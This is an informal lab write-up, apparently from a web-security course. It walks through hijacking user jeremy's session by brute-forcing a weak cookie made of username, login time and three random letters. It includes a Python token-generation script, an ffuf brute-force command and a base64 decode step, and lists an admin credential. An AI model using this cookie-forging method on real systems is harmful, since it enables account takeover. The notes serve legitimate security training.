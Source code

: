 

log in as admin

Admin:ramirez

for this lab example we know that Admin logs in and then jeremy automatically will log in at the same time.

This is because in the previous lab we know its admin-time of login - three random character

is the cookie

so now the instructor says we know that when admin logs in, so does jeremy, 

the instructor logs in as admin and knows a cookie has been generated and now we just have to brute force the three random characters because we know the first part of the cookie payload is jeremy, then the time of login which we can find out just by base 64 decoding our own cookie and getting that time stamp, all that is left is just to brute force the three characters

so we use the following script to accomplish it 

```python
import base64

chars = 'abcdefghijklmnopqrstuvwxyz'
prefix = 'jeremy-15:29:08-'
perms = []

for i in range(len(chars)):
    for j in range(len(chars)):
        for k in range(len(chars)):
            perms.append(prefix + chars[i] + chars[j] + chars[k])

for perm in perms:
    print(base64.b64encode(perm.encode()).decode())
```

this will generate the needed tokens to be able to see which one gets us a successful login

We then use the ffuf command after we save the list of tokens

ffuf -request req.txt -request-proto http -w tokens.txt -fs 834

we grab the one with status 200 and size 1741 and we decode it

echo -n 'amVyZW15LTE10jI50jA4LWZxZA== ' | base64 -d

and we get jeremy-15:29:08-fqd

the instructor then just add the cookie to the browser we refresh the page and we get a login with the users cookie.

